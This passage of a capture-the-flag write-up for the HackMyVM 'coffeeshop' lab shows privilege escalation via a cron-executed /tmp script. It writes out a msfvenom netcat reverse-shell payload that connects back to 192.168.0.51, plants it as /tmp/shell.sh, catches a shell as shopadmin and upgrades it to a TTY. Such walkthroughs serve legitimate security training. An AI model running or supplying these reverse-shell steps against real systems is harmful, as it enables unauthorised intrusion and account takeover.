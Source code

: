 This is simply telling us that anything inside of the `/tmp` directory that has the `.sh` extension is being executed.

I will created an msfvenom payload:

```bash
garffff@garffff:~/hackmyvm/coffeeshop$ sudo msfvenom -p cmd/unix/reverse_netcat lhost=192.168.0.51 lport=9999         
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 90 bytes
mkfifo /tmp/kdiw; nc 192.168.0.51 9999 0</tmp/kdiw | /bin/sh >/tmp/kdiw 2>&1; rm /tmp/kdiw
```

Creating a reverse listener: 

```bash
garffff@garffff:~/hackmyvm/coffeeshop$ sudo nc -lvp 9999
Listening on 0.0.0.0 9999
```

Echo the MSFVenom payload to a file in the `/tmp` directory and make it executable:

```bash
tuna@coffee-shop:~$ echo 'mkfifo /tmp/kdiw; nc 192.168.0.51 9999 0</tmp/kdiw | /bin/sh >/tmp/kdiw 2>&1; rm /tmp/kdiw' > /tmp/shell.sh
tuna@coffee-shop:~$ chmod +x /tmp/shell.sh
```

After about a minute, a reverse shell is received as the user shopadmin:

```bash
garffff@garffff:~/hackmyvm/coffeeshop$ sudo nc -lvp 9999
Listening on 0.0.0.0 9999
Connection received on midnight.coffee 33696
whoami
shopadmin
```

Upgrading the to a fully interactive TTY connection:

```bash
garffff@garffff:~/hackmyvm/coffeeshop$ sudo nc -lvp 9999
Listening on 0.0.0.0 9999
Connection received on midnight.coffee 33696

whoami
shopadmin
whereis python3
python3: /usr/bin/python3 /usr/lib/python3 /etc/python3 /usr/share/python3 /usr/share/man/man1/python3.1.gz
python3 -c 'import pty;pty.spawn("/bin/bash")'
shopadmin@coffee-shop:~$ ^Z
[1]+  Stopped                 sudo nc -lvp 9999
garffff@garffff:~/hackmyvm/coffeeshop$ stty raw -echo
sudo nc -lvp 9999ackmyvm/coffeeshop$ 


shopadmin@coffee-shop:~$ whoami && id
whoami && id
shopadmin
uid=1001(shopadmin) gid=1001(shopadmin) groups=1001(shopadmin)
```
